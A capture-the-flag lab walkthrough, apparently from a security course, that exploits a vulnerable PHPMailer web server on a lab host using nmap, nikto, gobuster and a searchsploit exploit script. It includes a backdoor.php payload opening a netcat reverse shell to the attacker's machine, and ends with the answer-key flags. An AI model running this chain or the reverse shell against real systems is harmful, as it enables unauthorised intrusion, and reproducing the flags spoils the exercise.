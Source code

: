 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You must report your findings to the SOC manager and the engineering manager with appropriate analysis.

>##### Note: This walkthrough detail one method to exploit the vulnerable machine. There are several alternatives to explore.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Resources/Images/2/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Resources/Images/2/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Resources/Images/2/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Resources/Images/2/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Resources/Images/2/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Resources/Images/2/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Resources/Images/2/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Resources/Images/2/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Resources/Images/2/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Resources/Images/2/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Resources/Images/2/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Resources/Images/2/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Resources/Images/2/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/files/exploit.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Resources/Images/2/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Resources/Images/2/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Resources/Images/2/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Resources/Images/2/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Resources/Images/2/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Resources/Images/2/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
    
    ![20](/Resources/Images/2/20.PNG)

# FLAGS

flag1{a2c1f66d28051bd3a5874b5b6r43e21}

flag2{6a8ed560f0b5358ecf844108048eb337}

flag3{a0f568aa9de277887f37730d71520d9b}